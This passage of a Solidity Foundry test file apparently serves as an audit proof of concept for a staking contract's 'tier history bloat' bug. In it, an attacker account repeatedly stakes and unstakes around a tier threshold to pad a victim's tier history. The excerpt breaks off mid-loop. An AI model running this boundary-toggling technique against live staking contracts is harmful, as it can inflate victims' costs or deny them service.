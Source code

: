```solidity
        staking.depositRewards(REWARDS_AMOUNT);
        vm.stopPrank();

        // Fund test users
        dealToken(attacker, INITIAL_BALANCE);
        dealToken(victim, INITIAL_BALANCE);
        dealToken(normalUser, INITIAL_BALANCE);
    }

    function dealToken(address to, uint256 amount) internal {
        vm.prank(admin);
        token.transfer(to, amount);
        vm.prank(to);
        token.approve(address(staking), amount);
    }

    /**
     * @notice Test to demonstrate the tier history bloat bug
     */
    function test_TierHistory_Bloat_Bug() public {
        // 1. Initial setup: Position the victim at the tier boundary
        console2.log("--- Initial Setup ---");

        // Victim stakes exactly at the tier threshold
        vm.prank(victim);
        staking.stake(TIER1_THRESHOLD);

        // Normal user stakes a different amount (not at boundary)
        vm.prank(normalUser);
        staking.stake(TIER1_THRESHOLD + 1000 * 1e18);

        // Attacker stakes just below the tier threshold
        vm.prank(attacker);
        staking.stake(TIER1_THRESHOLD - 100 * 1e18);

        // Initialize tier history entries
        tierHistoryEntries[victim] = 1;
        tierHistoryEntries[normalUser] = 1;

        // 2. Fast forward past the unstaking window
        vm.warp(block.timestamp + staking.UNSTAKE_WINDOW() + 1);

        // 3. Attacker toggles the tier boundary repeatedly
        console2.log("\n--- Attacker Toggles Tier Boundary ---");

        // Toggle the boundary multiple times
        for (uint256 i = 0; i < TOGGLE_COUNT; i++) {
            if (i % 2 == 0) {
                // Even iterations: Stake to push above threshold and shift boundary
                vm.prank(attacker);
                staking.stake(200 * 1e18);

                // Each boundary toggle adds entries to the victim's tier history
                tierHistoryEntries[victim] += 2;

                // Move to next block and wait for unstaking window
                vm.roll(block.number + 1);
                vm.warp(block.timestamp + staking.UNSTAKE_WINDOW() + 1);
            } else {
                // Odd iterations: Unstake to drop below threshold and shift boundary
                vm.prank(attacker);
                staking.unstake(200 * 1e18);

```